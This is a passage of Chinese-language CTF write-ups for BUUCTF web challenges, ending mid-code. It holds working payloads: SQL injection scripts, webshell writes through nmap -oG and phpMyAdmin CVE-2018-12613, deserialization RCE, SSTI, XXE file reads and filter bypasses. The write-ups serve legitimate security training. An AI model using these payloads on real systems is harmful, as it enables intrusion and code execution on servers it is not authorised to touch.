提交 1 1 显示 `wrong user!`, 提交 admin 1 显示 `wrong pass!`

name 提交单引号报错, 但是 pw 不会

过滤了 or 和括号... 常规的 SQL 注入怎么说也得要括号吧

右键源代码发现一处注释

```html
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
```

先 base32 解密再 base64 解密, 内容如下

```sql
select * from user where username = '$name'
```

注意他的检测方式不是 username 和 password 一起查的, 而是先查 username, 然后对比执行结果中的 password 和 post 传入的 pw 是否相等

联想到了之前在 CG-CTF 做过的一处 union 注入

具体例子如下

```mysql
mysql> select * from users where username='admin';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  8 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)

mysql> select * from users where username='1';
Empty set (0.00 sec)

mysql> select * from users where username='1' union select 1,'admin','admin';
+----+----------+----------+
| id | username | password |
+----+----------+----------+
|  1 | admin    | admin    |
+----+----------+----------+
1 row in set (0.00 sec)
```

前面构造不存在的内容让结果返回空, 后面再用 union 构造一组新的数据, 这样的出来的结果就跟正常的 select 结果一模一样了

测试的时候 pw 提交单引号不报错, 猜测可能是 md5 加密, payload 如下

```
order by被禁用，先用联合查询猜解一下字段数
admin' union select 1,2 #   回显列数不匹配 
admin' union select 1,2,3 #  回显密码错误，说明有三列
name=1' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```


## [GXYCTF2019]BabyUpload（文件上传，.htaccess，cookie保持上传位置不变）

简单文件上传

考察 .htaccess 和 `<script language="php">xx</script>`

和之前有一题差不多, 记得设置 cookie

## [GYCTF2020]Blacklist（堆叠注入，handler注入）


过滤内容如下

```php
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

handler 注入

```
http://215e031d-2bb6-4870-b01d-6fb4cfa685c5.node4.buuoj.cn:81/
?inject=1';handler FlagHere open;handler FlagHere read first;#
```


## [CISCN2019 华北赛区 Day2 Web1]Hack World（数字型bool盲注，（）绕过空格）


数字型盲注, 过滤了空格 and or 这些

`=` + 括号绕过

```sql
id=1=if(ascii(substr((select(flag)from(flag)),1,1))=102,1,0)
```

因为 `-` 也被过滤了, 所以还是转成 ascii 方便一些

python 脚本

```python
import time
import requests

dicts='flag{bcde-1234567890}'

url = 'http://e22b868b-c929-4bad-8e3f-1362d21e37d3.node4.buuoj.cn:81/index.php'

flag = ''

for i in range(100):
    for s in dicts:
        time.sleep(1)
        data = {
            'id': f"1=if(ascii(substr((select(flag)from(flag)),{i},1))={ord(s)},1,0)"
        }
        #print('test',s)
        res = requests.post(url,data=data, timeout=30)
        if 'glzjin' in res.text:
            flag += s
            print(flag)
            break
```


## [网鼎杯 2018]Fakebook（反序列化，SSRF，sql注入）

这题挺尴尬的.... 一开始直接 load_file() 读出源码和 flag 了


robots.txt

```
User-agent: *
Disallow: /user.php.bak
```

下载 user.php.bak

```php
<?php

class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

看起来是 ssrf

继续看主页, 登录框和注册框都没有注入

注册时可以填写 blog


尝试直接写 `file:///var/www/html/flag.php` 提示 blog is not valid

换成 `https://www.baidu.com` 注册成功


点开后右键


base64 解码的内容刚好是百度的 html 源码

url 地址如下

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=1
```

测试之后发现存在 sql 注入

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=1 union select 1,2,3,4
```

提示 `no hack ~_~`

union 和 select 之间多加一个空格就能绕过了, `/**/` 也可以

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,2,3,4
```


报错信息里有 unserialize(), 猜测可能对 sql 查询的某个结果进行了反序列化

继续注入看看

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,group_concat(no,',',username,',',passwd,',',data),3,4 from users
```



data 里是序列化后的个人信息, 结合之前得到的 user.php.bak 文件

思路应该是通过反序列化构造一个 ssrf, 然后利用 file:// 协议读取本地的 flag.php

不过注册的时候输入不了除 http https 之外的协议, 所以只能从这个 sql 注入下手

payload

```php
<?php

class UserInfo
{
    public $name = "1";
    public $age = 1;
    public $blog = "file:///var/www/html/flag.php";

}

echo serialize(new UserInfo());
```

利用 union 的特性

```
http://9bc3b55a-fc52-4df4-93b7-080bf0dbc873.node4.buuoj.cn:81/view.php?no=-1 union  select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```


## [RoarCTF 2019]Easy Java（java任意下载，读取 `WEB-INF/web.xml`）

java 的题


admin admin888 登录



主页右键查看源代码


访问


??? 换了好几个目录也是 file not found

看了一下 wp 发现要把 get 转成 post...


help.docx


搜了一下 java 的任意文件下载漏洞, 有一种利用方式是读取 `WEB-INF/web.xml`

> WEB-INF 的基本构成
>
> **/WEB-INF/web.xml** Web 应用程序配置文件, 描述了 servlet 和其它的应用组件配置及命名规则
>
> **/WEB-INF/classes/** 包含了站点所用的 class 文件, 包括 servlet class 和非 servlet class
>
> **/WEB-INF/lib** 存放 Web 应用需要的各种 jar 文件
>
> **/WEB-INF/src** 源码目录, 按照包名结构放置各个 java 文件
>
> **/WEB-INF/database.properties** 数据库配置文件
>
> ......

详解 [https://www.cnblogs.com/shamo89/p/9948707.html](https://www.cnblogs.com/shamo89/p/9948707.html)

我们下载 WEB-INF/web.xml

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">

    <welcome-file-list>
        <welcome-file>Index</welcome-file>
    </welcome-file-list>

    <servlet>
        <servlet-name>IndexController</servlet-name>
        <servlet-class>com.wm.ctf.IndexController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>IndexController</servlet-name>
        <url-pattern>/Index</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>LoginController</servlet-name>
        <servlet-class>com.wm.ctf.LoginController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>LoginController</servlet-name>
        <url-pattern>/Login</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>DownloadController</servlet-name>
        <servlet-class>com.wm.ctf.DownloadController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>DownloadController</servlet-name>
        <url-pattern>/Download</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>FlagController</servlet-name>
        <servlet-class>com.wm.ctf.FlagController</servlet-class>
    </servlet>
    <servlet-mapping>
        <servlet-name>FlagController</servlet-name>
        <url-pattern>/Flag</url-pattern>
    </servlet-mapping>

</web-app>
```

发现了 FlagController, 对应的 class 名是 com.wm.ctf.FlagController

```
filename=WEB-INF/classes/com/wm/ctf/FlagController.class
```

下载之后用 jd-gui 打开


base64 解码得到 flag

## [BUUCTF 2018]Online Tool（escapeshellarg 和 escapeshellcmd 同时使用可以绕过过滤进行命令执行）

```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```

之前了解过一些, escapeshellarg 和 escapeshellcmd 同时使用可以绕过过滤进行命令执行

参考文章 [https://paper.seebug.org/164/](https://paper.seebug.org/164/)https://www.php.net/manual/zh/function.escapeshellcmd.php)

win 下测试这两个函数的效果跟 linux 不太一样... 只能手动转义了

> escapeshellarg() 会在单引号之前加上 `\`, 并在被转义的单引号两边和整个字符串两边加上单引号
>
> escapeshellcmd() 会在所有的 `\` 前加上 `\`, 形成 `\\`, 并在**不成对**的单引号前加 `\`

```php
123 -> '123' -> '123' # 正常效果
    
123' -> '123'\''' -> '123'\\''\' # 最后一个引号不成对, 被转义

123'' -> '123'\'''\''' -> '123'\\'''\\''' # 所有引号成对, 不转义

'123' -> ''\''123'\''' -> ''\\''123'\\''' # 所有引号成对, 不转义
```

觉得有点绕的可以打开 linux 自己 echo 字符串试一下

nmap 的 `-oG` 功能可以把输出导出到文件中, 我们利用这个功能来写文件

因为如果用 `>` 的话, 是跳不出去单引号的, escapeshellarg 和 escapeshellcmd 共用绕过的本质是他俩对单引号转义的规则不同

```php
123 -oG 456 -> '123 -oG 456' -> '123 -oG 456' # 正常效果
    
123 -oG 456' -> '123 -oG 456'\''' -> '123 -oG 456'\\''\' # 最后一个引号不成对, 被转义

123 -oG 456'' -> '123 -oG 456'\'''\''' -> '123 -oG 456'\\'''\\''' # 所有引号成对, 不转义

'123 -oG 456' -> ''\''123 -oG 456'\''' -> ''\\''123 -oG 456'\\''' # 所有引号成对, 不转义
```

最终 payload 如下

```
?host='<?php eval($_REQUEST[1])?> -oG a.php '
```

注意 a.php 后要有一个空格, 如果不加空格的话, 第二次转义过后生成的 `'\\'''` 会和文件名连在一起, 最终写入的文件名会变成 `a.php\\`

这题网上**很多 wp**都在说最开头的引号后面要加空格, 例如 `?host=' <?php eval($_REQUEST[1])?> -oG a.php '`, 但实际上不用加空格也能够成功写入

不加空格的话文件里的 php 代码就会变成这样

```php
\\<?php eval($_REQUEST[1]);?>
```

前面的 `\\` 对 php 解析是完全没有影响的, 只是看起来像把 `<` 给转义成 `\<` 了


## [BJDCTF2020]The mystery of ip（SSTI，smarty）

hint.php 里有一句 `<!-- Do you know why i know your ip? -->`

第一时间想到的是 xff 头伪造 ip


试了好几个 ip 地址都不行, 看了 wp 才知道是 smarty 模板注入

不过还是很好奇怎么和模板注入联系上的...

参考文章

[https://www.anquanke.com/post/id/272393](https://www.anquanke.com/post/id/272393)

[https://xz.aliyun.com/t/11108](https://xz.aliyun.com/t/11108)

这题的 smarty 没有开安全模式, 通过 `{}` 直接就能执行 PHP 代码


## [网鼎杯 2020 朱雀组]phpweb(反序列化)

抓包内容如下


func 随便改一个值


调用了 call_user_func

show_source 被过滤了, 换成 highlight_file 读取源码, file_get_contents 也行

```php
<?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
}
class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
?>
```

有一个 Test 类, 猜测是反序列化

通过 `__destruct` 执行命令可以绕过检测, 而刚好 unserialize 没有被过滤

payload 如下

```
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}
```


## [GXYCTF2019]禁止套娃（无参数RCE）


试了一堆目录和文件, 试出来 .git 目录


index.php

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

`/[a-z,_]+\((?R)?\)/` 匹配的是类似于 `a(b(c()))` 的字符串, 要求替换之后的字符串全等于 `;`

也就是说 payload 格式只能是 `a(b(c()));`

明显利用的是无参数函数读文件 / rce 这个 trick

payload 如下

```
http://d02232b5-2e11-4816-99b5-03bac9959236.node4.buuoj.cn:81/
?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));
```


## [BJDCTF2020]ZJCTF，不过如此(php伪协议传输数据，preg_replace()函数/e模式)

```php
<?php

error_reporting(0);
$text = $_GET["text"];
$file = $_GET["file"];
if(isset($text)&&(file_get_contents($text,'r')==="I have a dream")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        die("Not now!");
    }

    include($file);  //next.php
    
}
else{
    highlight_file(__FILE__);
}
?>
```

看着好熟悉

```
http://0c7c25eb-0cf1-48a3-9275-3e974778839f.node4.buuoj.cn:81/?text=data://text/plain,I have a dream&file=php://filter/read=convert.base64-encode/resource=next.php
```

next.php

```php
<?php
$id = $_GET['id'];
$_SESSION['id'] = $id;

function complex($re, $str) {
    return preg_replace(
        '/(' . $re . ')/ei',
        'strtolower("\\1")',
        $str
    );
}


foreach($_GET as $re => $str) {
    echo complex($re, $str). "\n";
}

function getFlag(){
	@eval($_GET['cmd']);
}
```

主要考察 preg_replace 中 `/e` 修饰符导致的代码执行, 以及 PHP 的可变变量

参考文章

[https://xz.aliyun.com/t/2557](https://xz.aliyun.com/t/2557)

[https://www.php.net/manual/zh/language.variables.variable.php](https://www.php.net/manual/zh/language.variables.variable.php)

payload 如下, 没用到 getFlag 这个函数, 非要用的话思路也差不多

```
http://0c7c25eb-0cf1-48a3-9275-3e974778839f.node4.buuoj.cn:81/next.php?\S*={${eval($_REQUEST[1])}}&1=system('cat /flag');
```

因为 PHP get 参数名中的 `.` 会被转换成 `_`, 所以不能用 `.*` 这个正则

`\S` 表示匹配任意非空白符的字符, `*` 表示重复零次或更多次

另外不太清楚 `{${phpinfo()}}` 为什么最外层还要加一组大括号, 可能是这个原因?


## [BSidesCF 2020]Had a bad day（文件包含，php://filter 遇到不认识的过滤器会自动跳过）


猜测是文件包含

category 改成 index.php 提示 `Sorry, we currently only support woofers and meowers.`

根据经验来看应该只是单纯 strpos 查看有没有包含这个关键词

php://filter 遇到不认识的过滤器会自动跳过

测试一下发现末尾会自动加 `.php`

```
http://0a37d3e1-1235-4537-a0e0-a2a8318129e0.node4.buuoj.cn:81/index.php?category=php://filter/meowers/convert.base64-encode/resource=index
```

index.php

```php
......
<?php
$file = $_GET['category'];

if(isset($file))
{
	if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
		include ($file . '.php');
	}
	else{
		echo "Sorry, we currently only support woofers and meowers.";
	}
}
?>
......
```

好像不用加关键词也能包含成功...

存在 /flag.php 直接包含

```
http://0a37d3e1-1235-4537-a0e0-a2a8318129e0.node4.buuoj.cn:81/index.php?category=php://filter/meowers/convert.base64-encode/resource=flag
```

或者利用目录穿越 `resource=meowers/../flag`

## [GWCTF 2019]我有一个数据库（phpMyadmin日志文件getshell）


robots.txt

```
User-agent: *
Disallow: phpinfo.php
```

phpinfo 没看出来什么, 倒是看一半的时候想着会不会有 phpmyadmin

访问 /phpmyadmin


test 用户, 读写文件都不行, 不过发现 phpmyadmin 的版本才只有 4.8.1

网上搜了一下相关的漏洞

[https://www.cnblogs.com/liliyuanshangcao/p/13815242.html](https://www.cnblogs.com/liliyuanshangcao/p/13815242.html)

我用的是 CVE-2018-12613

首先将 sql 查询写入 session

```
select '<?php eval($_REQUEST[1]);?>';
```

然后包含文件, session id 就是 cookie 中 phpMyAdmin 的值

```
http://9125f90e-533c-4fa5-9158-a49652793cd7.node4.buuoj.cn:81/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_83jpjerdqkvmrn2t4nhv3r1j5n&1=system('cat /flag');
```


好像不支持 post 提交, 只能用 get

## [BJDCTF2020]Mark loves cat(代码审计)

.git 泄露

index.php

```php
......
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
        exit($handsome);
    }
}

if(!isset($_GET['flag']) && !isset($_POST['flag'])){
    exit($yds);
}

if($_POST['flag'] === 'flag'  || $_GET['flag'] === 'flag'){
    exit($is);
}

echo "the flag is: ".$flag;
```

??? 有点乱, 随便传了个参就得到 flag 了

```
http://42c649fb-b7ef-49f6-9761-40c7b31f6a84.node4.buuoj.cn:81/?yds=flag
```


另一种方法

```
http://42c649fb-b7ef-49f6-9761-40c7b31f6a84.node4.buuoj.cn:81/?is=flag&flag=flag
```

## [NCTF2019]Fake XML cookbook（XXE）

常规 xxe

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///flag">]>
<user>
    <username>
        &file;
    </username>
    <password>
        123
    </password>
</user>
```

其中 username 是回显位


## [安洵杯 2019]easy_web(base64解码（解不出加=尝试），md5碰撞文件，fastcoll)

url 如下

```
http://fceb2d5a-0801-4f14-8892-7320f73f2268.node4.buuoj.cn:81/index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

img 有点可疑, base64 解码两次 (第一次解码记得在末尾加上 `=`)

```
3535352e706e67
```

hex 编码, 再解码的内容为 `555.png`

看起来是文件包含, 于是构造了 index.php, 读取出来的内容 base64 解密一次即可

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "</img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
```

上半段没啥可利用的, 下半段一开始以为是 md5 数组绕过, 结果发现一直不行

原因是 `(string)$_POST['a'] !== (string)$_POST['b']` 这一句, 任何数组转换成 string 类型的值都是 Array, 也就无法利用了

搜了一下发现考点是 md5 碰撞, 利用 fastcoll 生成两个 md5 值一样的二进制文件

[https://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5.exe.zip](https://www.win.tue.nl/hashclash/fastcoll_v1.0.0.5.exe.zip)

```
C:\Users\46224\Desktop\Tools>fastcoll_v1.0.0.5.exe
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Allowed options:
  -h [ --help ]           Show options.
  -q [ --quiet ]          Be less verbose.
  -i [ --ihv ] arg        Use specified initial value. Default is MD5 initial
                          value.
  -p [ --prefixfile ] arg Calculate initial value using given prefixfile. Also
                          copies data to output files.
  -o [ --out ] arg        Set output filenames. This must be the last option
                          and exactly 2 filenames must be specified.
                          Default: -o msg1.bin msg2.bin


C:\Users\46224\Desktop\Tools>fastcoll_v1.0.0.5.exe -o 1 2
MD5 collision generator v1.5
by Marc Stevens (http://www.win.tue.nl/hashclash/)

Using output filenames: '1' and '2'
Using initial value: 0123456789abcdeffedcba9876543210

Generating first block: .......
Generating second block: S00.......
Running time: 1.072 s

C:\Users\46224\Desktop\Tools>
```

burp parse from file 然后对所有字符进行 url 编码


strings 可以绕过过滤, 另外 tar gz 这些打包的命令也能用

## [强网杯 2019]高明的黑客(混淆后的代码文件，从中fuzz可能的参数)


下载 `www.tar.gz`



???


里面的代码都是混淆过的, 可阅读性几乎为 0

实在搞不懂要干什么, 看到 wp 才知道是要拿出文件里面的 get 和 post 参数进行 fuzz, 挺无语的...

我是把源代码都放在本地的服务器上, 这样子 fuzz 的时候会快一点

```python
import os
import re
import requests

filenames = os.listdir('.')

url = 'http://127.0.0.1/src/'

def req(filename, getParams, postParams):
    params = {k : 'echo XZXZTEST' for k in getParams}
    data = {k : 'echo XZXZTEST' for k in postParams}
    res = requests.post(url + filename, params=params, data=data)
    if r'XZXZTEST' in res.text:
        print(url + filename,params,data)
        exit()

for filename in filenames:
    if filename != 'search.py':
        with open(filename, 'r') as f:
            text = f.read()
        getParams = re.findall(r"\$\_GET\['(.*?)'\]", text)
        postParams = re.findall(r"\$\_POST\['(.*?)'\]", text)
        print('testing',filename)
        # print(getParams, postParams)
        req(filename, getParams, postParams)
```

先把每个文件里的 get post 参数匹配出来, 然后全部一次性提交试一遍, 找出来文件是什么

跑了大概三四分钟, 显示的是`xk0SzyKwfzw.php`

然后再把这个文件单独拿出来, 用另一个脚本跑, 这次挨个挨个试看是哪一个参数引起的命令执行

```python
import re
import requests

url = 'http://127.0.0.1/src/xk0SzyKwfzw.php'

with open('xk0SzyKwfzw.php', 'r') as f:
    text = f.read()

getParams = re.findall(r"\$\_GET\['(.*?)'\]", text)
postParams = re.findall(r"\$\_POST\['(.*?)'\]", text)

for get in getParams:
    params = {get : 'echo XZXZTEST'}
    res = requests.get(url, params=params)
    if 'XZXZTEST' in res.text:
        print('get',params)

for post in postParams:
    data = {post: 'echo XZXZTEST'}
    res = requests.post(url, data=data)
    if 'XZXZTEST' in res.text:
        print('post',data)
```

跑出来结果是 `Efa5BVG` 这个参数

最后在题目网站里访问查看 flag

```
http://322b2b43-4388-4229-ac9a-4ae3a393ed7a.node4.buuoj.cn:81/xk0SzyKwfzw.php?Efa5BVG=cat /flag
```

 

页面爆了 Warning, 也可以利用这个思路把 assert 对应的参数试出来, 方法不止一种

## [BJDCTF2020]Cookie is so stable（SSTI,twig）

flag.php 处输入用户名


Hello 后面没有显示了, 把 cookie 删掉试试?


返回头里面有 set-cookie


两个 cookie 都设置一下后返回 Hello 123

尝试把 cookie 中的 user 改成 `{{7*7}}`


存在 ssti, 之后通过下图判断对应的模板引擎


`{{7*'7'}}` 返回 Hello 49, 而且是 PHP 语言, 只能是 Twig 了

参考文章 [https://xz.aliyun.com/t/10056](https://xz.aliyun.com/t/10056)

发现 Twig 的版本是 1.x, 关于 `_self` 变量的 payload 直接就能用

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}
```


利用 exec 执行的时候好像只能返回一行, 用 for endfor 循环没成功, 不过读 flag 没有影响

想要多行都显示的话改成 system 再执行命令就行了

## [WUSTCTF2020]朴实无华（intval()绕过以及md5碰撞（纯数字））

robots.txt

```
User-agent: *
Disallow: /fAke_f1agggg.php
```

访问 fAke_f1agggg.php


访问 fl4g.php

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

首先是 intval 的绕过, 这次的绕过有点意思

因为 intval 对科学计数法会截断处理, 例如 `123e456` 会变成 123 (PHP 5)

但是运算的时候, 科学计数法会先转换为数字参与运算, 之后再被 intval

```php
intval('123e1'); // 123
intval('123e1' + 1); // 1230 + 1 = 1231
intval('123e4' + 1); // 1230000 + 1 = 1230001
```

传入 `num=2019e1` 就能绕过了

然后是 md5 的碰撞, 一开始还以为是要找一个两次加密都是 0e 开头的值, 后来才发现并不是那么简单, 0e 后面必须全是数字才行

```python
from hashlib import md5

i = 0

while True:
    a = '0e' + str(i)
    m = md5(a.encode()).hexdigest()
    print(i)
    if m[:2] == '0e' and m[2:].isdigit():
        print('OK!!!!!!!!!1',a)
        break
    i += 1
```

耗时比较长, 出来的结果是 `0e215962017`

最后命令执行的绕过就很简单了

```
http://178bbba8-cd71-4046-b787-e861e97280ac.node4.buuoj.cn:81/fl4g.php?num=2019e1&md5=0e215962017&get_flag=tac${IFS}fllllllllllllllllllllllllllllllllllllllllaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag
```

## [安洵杯 2019]easy_serialize_php（反序列化，extract变量覆盖，反序列化字符逃逸）

```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
